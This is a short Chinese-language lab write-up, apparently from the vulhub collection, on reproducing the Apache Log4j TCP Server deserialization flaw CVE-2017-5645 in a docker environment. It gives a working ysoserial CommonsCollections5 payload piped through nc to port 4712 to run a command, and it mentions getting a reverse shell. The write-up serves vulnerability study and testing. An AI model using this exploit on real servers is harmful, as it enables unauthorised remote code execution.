


# Apache Log4j TCP Server 反序列化命令执行漏洞（CVE-2017-5645）

Apache Log4j 是一个用于 Java 的日志记录库，其支持启动远程日志服务器。Apache Log4j TCP Server 2.8.2 之前的 2.x 版本中存在反序列化漏洞，攻击者可利用该漏洞执行任意代码。

参考链接：

- https://issues.apache.org/jira/browse/LOG4J2-1863
- https://github.com/pimps/CVE-2017-5645

## 漏洞环境

执行如下命令启动漏洞环境：

```
docker compose up -d
```

环境启动后，将在 4712 端口开启一个 TCPServer。

说一下，除了使用 vulhub 的 docker 镜像搭建环境外，我们下载了 log4j 的 jar 文件后可以直接在命令行启动这个 TCPServer：`java -cp "log4j-api-2.8.1.jar:log4j-core-2.8.1.jar:jcommander-1.72.jar" org.apache.logging.log4j.core.net.server.TcpSocketServer`，无需使用 vulhub 和编写代码。

## 漏洞复现

我们使用 ysoserial 生成 payload，然后直接发送给 `your-ip:4712` 端口即可。

```
java -jar ysoserial-master-v0.0.5-gb617b7b-16.jar CommonsCollections5 "touch /tmp/success" | nc your-ip 4712
```

然后执行 `docker compose exec log4j bash` 进入容器，可见 /tmp/success 已成功创建：



执行 [反弹 shell 的命令](http://www.jackson-t.ca/runtime-exec-payloads.html)，成功弹回 shell：


